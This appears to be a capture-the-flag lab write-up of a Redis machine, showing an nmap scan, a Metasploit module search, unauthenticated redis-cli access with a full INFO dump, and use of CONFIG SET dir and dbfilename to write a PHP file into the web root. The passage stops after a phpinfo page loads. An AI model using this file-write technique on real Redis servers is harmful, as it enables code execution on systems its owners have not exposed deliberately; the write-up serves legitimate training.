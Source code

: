 # Res

Basic Recon:
```sh
nmap -sV $ip -p-
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-10 08:43 CEST
Nmap scan report for 10.10.57.136
Host is up (0.070s latency).
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
6379/tcp open  redis   Redis key-value store 6.0.7

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 81.22 seconds
```

Question: 
Scan the machine, how many ports are open? <br/>
Answer:
`2` Ports are open.

Question:
What's is the database management system installed on the server? <br/>
Answer:
The database management system running on Port 6379 is `redis`.

Question:
What port is the database management system running on? <br/>
Answer:
The Port Redis is running on is `6379`.

Question:
What's is the version of management system installed on the server? <br/>
Answer:
The version of Redis is `6.0.7`.

Afterwards I tried to search for metasploit modules:
```sh
msf6 > search redis

Matching Modules
================

   #   Name                                                       Disclosure Date  Rank       Check  Description
   -   ----                                                       ---------------  ----       -----  -----------
   0   exploit/multi/http/gitlab_github_import_rce_cve_2022_2992  2022-10-06       excellent  Yes    GitLab GitHub Repo Import Deserialization RCE
   1   auxiliary/gather/ibm_bigfix_sites_packages_enum            2019-03-18       normal     No     IBM BigFix Relay Server Sites and Package Enum
   2   exploit/windows/browser/ie_createobject                    2006-04-11       excellent  No     MS06-014 Microsoft Internet Explorer COM CreateObject Code Execution
   3   auxiliary/scanner/redis/redis_server                                        normal     No     Redis Command Execute Scanner
   4   auxiliary/gather/redis_extractor                                            normal     Yes    Redis Extractor
   5   auxiliary/scanner/redis/file_upload                        2015-11-11       normal     No     Redis File Upload
   6   auxiliary/scanner/redis/redis_login                                         normal     No     Redis Login Utility
   7   exploit/linux/redis/redis_debian_sandbox_escape            2022-02-18       excellent  Yes    Redis Lua Sandbox Escape
   8   exploit/linux/redis/redis_replication_cmd_exec             2018-11-13       good       Yes    Redis Replication Code Execution
   9   post/windows/gather/credentials/redis_desktop_manager                       normal     No     RedisDesktopManager credential gatherer
   10  post/windows/gather/credentials/solarwinds_orion_dump      2022-11-08       manual     No     SolarWinds Orion Secrets Dump
   11  exploit/linux/http/sophos_utm_webadmin_sid_cmd_injection   2020-09-18       excellent  Yes    Sophos UTM WebAdmin SID Command Injection
   12  exploit/windows/browser/webex_ucf_newobject                2008-08-06       good       No     WebEx UCF atucfobj.dll ActiveX NewObject Method Buffer Overflow
   13  exploit/windows/browser/ms07_017_ani_loadimage_chunksize   2007-03-28       great      No     Windows ANI LoadAniIcon() Chunk Size Stack Buffer Overflow (HTTP)
   14  exploit/windows/email/ms07_017_ani_loadimage_chunksize     2007-03-28       great      No     Windows ANI LoadAniIcon() Chunk Size Stack Buffer Overflow (SMTP)
```

I tried some of them but didn't get far. <br/>
When I just tried connecting to the service it seems like unauthorized access is enabled.
```sh
redis-cli -h $ip
10.10.57.136:6379> ls
10.10.57.136:6379> SELECT 1
OK
10.10.57.136:6379[1]> INFO
# Server
redis_version:6.0.7
redis_git_sha1:00000000
redis_git_dirty:0
redis_build_id:5c906d046e45ec07
redis_mode:standalone
os:Linux 4.4.0-189-generic x86_64
arch_bits:64
multiplexing_api:epoll
atomicvar_api:atomic-builtin
gcc_version:5.4.0
process_id:596
run_id:b9b2002212069d6519b946f4e231696946ca05d5
tcp_port:6379
uptime_in_seconds:2324
uptime_in_days:0
hz:10
configured_hz:10
lru_clock:2423612
executable:/home/vianka/redis-stable/src/redis-server
config_file:/home/vianka/redis-stable/redis.conf
io_threads_active:0

# Clients
connected_clients:1
client_recent_max_input_buffer:2
client_recent_max_output_buffer:0
blocked_clients:0
tracking_clients:0
clients_in_timeout_table:0

# Memory
used_memory:588008
used_memory_human:574.23K
used_memory_rss:4902912
used_memory_rss_human:4.68M
used_memory_peak:644600
used_memory_peak_human:629.49K
used_memory_peak_perc:91.22%
used_memory_overhead:541522
used_memory_startup:524536
used_memory_dataset:46486
used_memory_dataset_perc:73.24%
allocator_allocated:824320
allocator_active:1142784
allocator_resident:3379200
total_system_memory:1038393344
total_system_memory_human:990.29M
used_memory_lua:37888
used_memory_lua_human:37.00K
used_memory_scripts:0
used_memory_scripts_human:0B
number_of_cached_scripts:0
maxmemory:0
maxmemory_human:0B
maxmemory_policy:noeviction
allocator_frag_ratio:1.39
allocator_frag_bytes:318464
allocator_rss_ratio:2.96
allocator_rss_bytes:2236416
rss_overhead_ratio:1.45
rss_overhead_bytes:1523712
mem_fragmentation_ratio:8.99
mem_fragmentation_bytes:4357408
mem_not_counted_for_evict:0
mem_replication_backlog:0
mem_clients_slaves:0
mem_clients_normal:16986
mem_aof_buffer:0
mem_allocator:jemalloc-5.1.0
active_defrag_running:0
lazyfree_pending_objects:0

# Persistence
loading:0
rdb_changes_since_last_save:0
rdb_bgsave_in_progress:0
rdb_last_save_time:1696920104
rdb_last_bgsave_status:ok
rdb_last_bgsave_time_sec:-1
rdb_current_bgsave_time_sec:-1
rdb_last_cow_size:0
aof_enabled:0
aof_rewrite_in_progress:0
aof_rewrite_scheduled:0
aof_last_rewrite_time_sec:-1
aof_current_rewrite_time_sec:-1
aof_last_bgrewrite_status:ok
aof_last_write_status:ok
aof_last_cow_size:0
module_fork_in_progress:0
module_fork_last_cow_size:0

# Stats
total_connections_received:4
total_commands_processed:7
instantaneous_ops_per_sec:0
total_net_input_bytes:181
total_net_output_bytes:26186
instantaneous_input_kbps:0.00
instantaneous_output_kbps:0.00
rejected_connections:0
sync_full:0
sync_partial_ok:0
sync_partial_err:0
expired_keys:0
expired_stale_perc:0.00
expired_time_cap_reached_count:0
expire_cycle_cpu_milliseconds:49
evicted_keys:0
keyspace_hits:0
keyspace_misses:0
pubsub_channels:0
pubsub_patterns:0
latest_fork_usec:0
migrate_cached_sockets:0
slave_expires_tracked_keys:0
active_defrag_hits:0
active_defrag_misses:0
active_defrag_key_hits:0
active_defrag_key_misses:0
tracking_total_keys:0
tracking_total_items:0
tracking_total_prefixes:0
unexpected_error_replies:0
total_reads_processed:13
total_writes_processed:9
io_threaded_reads_processed:0
io_threaded_writes_processed:0

# Replication
role:master
connected_slaves:0
master_replid:70add7391aaa3526a832768d9c1f02b0b1594bf2
master_replid2:0000000000000000000000000000000000000000
master_repl_offset:0
second_repl_offset:-1
repl_backlog_active:0
repl_backlog_size:1048576
repl_backlog_first_byte_offset:0
repl_backlog_histlen:0

# CPU
used_cpu_sys:0.172000
used_cpu_user:3.132000
used_cpu_sys_children:0.000000
used_cpu_user_children:0.000000

# Modules

# Cluster
cluster_enabled:0

# Keyspace
```

After some research on Redis commands I was able to find `CONFIG GET *`. <br/>
This command basically outputs the whole configuration of the database management system. <br/>
What is interesting for us though is that redis is operating in the root direcotry.
```sh
251) "dir"
252) "/"
```

After some more research I found that we can change the working direcotry and create files, so let's try that:
```sh
10.10.57.136:6379[1]> config set dir /var/www/html
OK
10.10.57.136:6379[1]> config set dbfilename test.php
OK
10.10.57.136:6379[1]> set test "<?php phpinfo((; ?>"
OK
10.10.57.136:6379[1]> save
OK
```

After taking a look at the website I was able to find the page with phpinfo() loaded:
![grafik](https://github.com/Aryt3/writeups/assets/110562298/e69b5d1c-f9a8-48a2-9d11-212851c4e5be)

